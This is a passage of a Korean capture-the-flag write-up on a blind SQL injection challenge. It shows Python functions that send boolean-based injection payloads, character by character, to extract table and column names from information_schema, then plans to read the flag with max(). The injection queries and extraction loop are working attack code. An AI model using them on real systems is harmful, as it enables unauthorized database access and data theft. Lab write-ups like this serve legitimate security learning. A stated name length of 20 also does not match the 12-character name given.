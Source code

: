 ```python
	
	self.table_name = tmp_str
	print(self.table_name)
```
여기서 주목해야할 점은 `getTableName()` 함수에서 for문을 8부터 시작한다는 것이다.<br />
위에도 언급했듯 해당 쿼리의 결과값은 "chall13RandomFlagValue"이 될 것이고 앞의 "chall13"은 불필요한 값이기 때문에 그 다음인 8번째부터 값을 얻어오기 위함이다.<br />

이렇게 최종적으로 테이블 이름의 길이는 20이고 이름은 "flag_ab73376"이다.
### 컬럼 이름의 길이와 이름 알아내기
```python
if((select(length(min(concat(table_schema,column_name))))from(information_schema.columns))in(i),1,0)

if((select(ord(substr(min(concat(table_schema,column_name)),{i},1)))from(information_schema.columns))in({ord(letter)}),1,0)
```
위에서 테이블 길이, 이름을 구할 때의 쿼리와 거의 동일하다. column 값을 읽어오도록 조금만 변형하면 된다.<br />

```python
def getColumnNameLength(self):
	for i in range(1, 100):
		query = f"if((select(length(min(concat(table_schema,column_name))))from(information_schema.columns))in({i}),1,0)"
		resp = requests.get(self.url + query)
		if self.true_factor in resp.text:
			self.column_length = i
			break
	
	print(self.column_length)

def getColumnName(self):
	tmp_str = ""
	for i in range(8, self.column_length + 1):
		for letter in string.printable:
			query = f"if((select(ord(substr(min(concat(table_schema,column_name)),{i},1)))from(information_schema.columns))in({ord(letter)}),1,0)"
			resp = requests.get(self.url + query)
			if self.true_factor in resp.text:
				print("Found", letter)
				tmp_str += letter
				break
	
	self.column_name = tmp_str
	print(self.column_name)
```
### 최종 플래그 읽어오기
이제 테이블 이름도 알아냈고 컬럼의 이름도 알아냈다.<br />
플래그 이름의 길이와 이름을 알아내야 하는데 문제는 해당 컬럼에 플래그 이외에 여러 값이 존재할지도 모른다는 것이다.<br />

그렇다면 이번에도 min 혹은 max 함수를 이용해야 한다.<br />
문제 사이트에 플래그를 입력하는 곳을 보면 "FLAG{something}"으로 placeholder가 있다.<br />
아마 DB에도 "FLAG{"로 시작하는 값이 있을 것으로 예상되고 'F'는 ascii 상으로 꽤나 높기 때문에 이번엔 max()을 사용해보았다.<br />
